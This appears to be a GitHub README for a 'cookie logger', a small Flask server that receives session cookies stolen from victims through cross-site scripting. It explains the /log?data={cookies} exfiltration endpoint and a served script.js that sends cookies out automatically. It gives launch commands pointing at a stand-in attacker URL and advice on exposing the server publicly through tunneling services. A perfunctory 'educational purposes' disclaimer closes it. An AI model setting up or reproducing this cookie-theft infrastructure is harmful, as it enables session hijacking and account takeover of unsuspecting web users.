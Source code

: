 # Cookie logger🍪

HTTP server to log users' cookies when exploiting XSS.

To log cookies, simply send GET request to `/log?data={cookies}&url={url}`, {url} is the site where cookies was logged. Cookies will be logged to stdout and stored in `cookies.log` file. 

Script for automatic logging is served at `/script.js`. Note that this script is making an XHR, hence to log cookies on HTTPS site this server should be also HTTPS-hosted. Also, HttpOnly cookies obviously will not be logged because javascript can't access them.

## Running

Set SERVER_URL to public (preferably https) url of a server you're running this script on. If you don't have one, see the next section. This is needed to serve a proper `/script.js` 

```console
$ export SERVER_URL=https://totally-innocent-url.hack
$ flask --app 'main:create_app("'$SERVER_URL'")' run --host 0.0.0.0 --port 4444
```

or with gunicorn (better for production):

```console
$ export SERVER_URL=https://totally-innocent-url.hack
$ gunicorn 'main:create_app("'$SERVER_URL'")' -b 0.0.0.0:4444
```

## Getting public url for free

You can use [Tunnelmole](https://tunnelmole.com/), [Telebit](https://telebit.cloud/), [ngrok](https://ngrok.com/) or any other alternative of your choice. It's simple as:

```console
$ tmole 4444
http://s3rd.tunnelmole.net
https://s3rd.tunnelmole.net
```

Then set `SERVER_URL` in the previous section to the received https url and run the server.

## Disclaimer

For educational purposes only and all that jazz.

And I didn't use this for anything nasty, I promise :)